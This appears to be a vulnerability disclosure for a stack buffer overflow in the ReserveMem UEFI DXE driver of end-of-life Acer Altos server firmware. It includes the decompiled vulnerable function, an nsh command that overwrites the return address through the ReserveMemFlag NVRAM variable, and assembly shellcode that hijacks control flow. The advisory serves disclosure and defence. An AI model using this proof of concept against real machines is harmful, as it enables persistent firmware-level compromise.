


There is a stack buffer overflow vulnerability, which could lead to **arbitrary code execution in UEFI DXE driver** in the latest firmware of Acer's Altos servers. And all these affecting models are already end of life. So we decided to disclose the detail.

## Summary

Previously, we did a lot of research in existing works in UEFI security, an example is that Binarly-IO found a lot of vulnerabilities since last years. And there is also a paper in S&P2022 mainly focused on SMM callout vulnerabilities. We believe that the security of UEFI ecosystem remains construction, so we started to do some trivial works. 

This vulnerability is similar to our [another one](https://github.com/10TG/vulnerabilities/tree/main/Acer/CVE-2022-30426),which exists due to the incorrect use of the `gRT->GetVariable` service in driver `ReserveMem`.

Affecting models: Altos W2000h-W570h F4, the latest update in 2019.02.13

## Vulnerability Description

Vulnerability exists in function located offset `0x32c` in `ReserveMem`.

The latest firmware can be downloaded here: https://global-download.acer.com/GDFiles/BIOS/BIOS/BIOS_Acer_R01.03.0018_A_A.zip

```C
__int64 __fastcall sub_32C(__int64 a1, __int64 a2)
{
  ... ...
  // v18 is at offset 0x28 the parent funciton's ret address
  __int64 v18; // [rsp+EE0h] [rbp+DE0h]  
  DataSize = 1827i64;  // There is a hardcode datasize
  // the omitted code haven't change the "DataSize"
  ... ...
  // DataSize > sizeof(v18), which can cause stack overflow.
  if ( gRT->GetVariable(aReservememflag, &gSetupVariableGuid, 0i64, &DataSize, &v18) || (_BYTE)v19 != (_BYTE)v18 )
  
  ... ...
  return 0i64;
}
```

The DataSize parameter is bigger than the buffer and can overwrite the return address. We can make use of it by update the value of the NVARM variable `ReserveMemFlag`.

## Vulnerability Analysis

We have write a PoC script, that  overwrites the return address to "AAAA".

Before we run the exploit, use the EmulatorPKG build from EDK2, and simply load the driver.

We can simply use a `nsh` script to set the variable value:

```nsh
setvar ReserveMemFlag -guid ec87d643-eba4-4bb5-a1e5-3f3e36b20da9 -bs -rt -nv =4141414141414141...4141414141414141
```

After running the script, the variable `ReserveMemFlag` has been set to a large string full of "AAAA". 

Using gdb to debug, we can see that when the entry function of the driver trys to return, the return address has been overflowed to our payload.

And because the variable is stored in the NVRAM, the next time we try to load the driver, the shellcode will still be triggered thus cause a exception.



Since we can control the **RIP**, we can further write shellcode in the stack. There isn't ALSR or NX in UEFI DXE phase, so it's quite simple to construct the shellcode to perform a call to `ConOut->OutputString`.

Our shellcode is as following.

```assembly
mov eax, 0x79ee018  ; SystemTable
mov edx, 0x0a
mov r8, [rax+0x40]  ; SystemTable->ConOut
mov rcx, r8
call [r8+0x28]      ; SystemTable->ConOut->SetAttribute
mov eax, 0x79ee018
mov edx, 0x7e2c47a   ; The string need to Output
mov r8, [rax+0x40]
mov rcx, r8
call [r8+0x8]       ; SystemTable->ConOut->OutputString
ret
db "Pwned by 10TG", 0x0 ; UTF-16LE
```

Run the script to set variable and load the driver; we can see that the control flow is hijacked and we successfully print a string.



In conclusion, an attack can exploit this vulnerability to **execute arbitrary code**.

A **malicious code can be installed** which could **survive across an operating system (OS) boot process** and modify NVRAM area in SPI flash storage (to gain persistence on target platform).

## Credit

This vulnerability credited to [river-li](https://github.com/river-li)(Zichuan Li) and [cft789](https://github.com/cft789)(Fangtao Cao) from Wuhan University.

